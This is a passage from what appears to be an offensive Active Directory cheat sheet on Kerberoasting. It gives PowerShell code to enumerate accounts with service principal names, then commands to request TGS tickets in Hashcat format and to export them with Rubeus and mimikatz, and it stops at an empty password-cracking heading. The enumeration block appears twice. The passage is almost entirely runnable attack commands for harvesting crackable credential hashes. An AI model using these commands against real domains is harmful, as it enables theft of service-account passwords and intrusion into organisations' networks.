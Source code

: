 ```
$MyResults = $MySearch.Findall()

foreach($result in $MyResults)
{
 $userEntry = $result.GetDirectoryEntry()
 Write-host "Object Name = " $userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
 Write-host "DN = "  $userEntry.distinguishedName
 Write-host "Object Cat. = "  $userEntry.objectCategory
 Write-host "servicePrincipalNames"
 $i=1
 foreach($SPN in $userEntry.servicePrincipalName)
  {
  Write-host "SPN(" $i ")   = "   $SPN
  $i+=1
  }
  Write-host ""
  }
```
##### KERBEROASTING - LIST ALL SPN USERS
```
$MySearch = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$MySearch.filter = "(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
$MyResults = $MySearch.Findall()

foreach($result in $MyResults)
{
 $userEntry = $result.GetDirectoryEntry()
 Write-host "Object Name = " $userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
 Write-host "DN = "  $userEntry.distinguishedName
 Write-host "Object Cat. = "  $userEntry.objectCategory
 Write-host "servicePrincipalNames"
 $i=1
 foreach($SPN in $userEntry.servicePrincipalName)
  {
  Write-host "SPN(" $i ")   = "   $SPN
  $i+=1
  }
  Write-host ""
  }
```
##### KERBEROASTING - REQUEST A TGS TICKET
```
Add-Type -Assemblyname System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -Argumentlist "HTTP/MyServiceComputer.TECH.LOCAL"
```
```
Request-SPNTicket -SPN "HTTP/MyServiceComputer.TECH.LOCAL" -Format Hashcat
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation
```
##### KERBEROASTING - EXPORT TICKET
```
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /user:analystm2 /nowrap
Rubeus.exe kerberoast /user:analystm2 /nowrap /simple
Rubeus.exe kerberoast /user:analystm2 /nowrap /simple /outfile:C:\hashestgt.txt
```
```
.\mimikatz.exe
kerberos::list /export
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
##### KERBEROASTING - CRACK PASSWORD